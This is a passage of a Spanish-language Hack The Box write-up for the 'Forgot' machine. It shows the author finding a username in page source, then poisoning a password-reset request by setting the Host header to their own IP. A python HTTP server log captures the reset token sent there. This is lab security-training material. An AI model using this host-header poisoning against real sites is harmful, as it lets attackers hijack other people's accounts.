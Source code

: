 Es probable que después el servidor pete y sea necesario esperar un tiempo o resetear la máquina

```null
curl -s -X GET http://10.10.11.188/
<!DOCTYPE html>
<html>
  <head>
    <title>503 Backend fetch failed</title>
  </head>
  <body>
    <h1>Error 503 Backend fetch failed</h1>
    <p>Backend fetch failed</p>
    <h3>Guru Meditation:</h3>
    <p>XID: 9076832</p>
    <hr>
    <p>Varnish cache server</p>
  </body>
</html>
```

En el código fuente se puede ver un usuario en un comentario

<img src="/writeups/assets/img/Forgot-htb/4.png" alt="">

Lo introduzco en ```/forgot``` y se envía el link a un correo electrónico

<img src="/writeups/assets/img/Forgot-htb/5.png" alt="">

Intercepto la petición y modifico la cabecera ```Host``` para que valga mi IP

```null
Host: 10.10.16.4
```

Recibo el token en un servicio HTTP con ```python```

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.188 - - [13/Jun/2023 09:54:05] code 404, message File not found
10.10.11.188 - - [13/Jun/2023 09:54:05] "GET /reset?token=LanUnP8QB20cOeQe01zLoQRg6CvUiryChIhrNFozIdQ9LD7kbaN9ma3hDO%2BVFbGGVE8tKXxijGfk8%2BQKDktpUg%3D%3D HTTP/1.1" 404 -
```
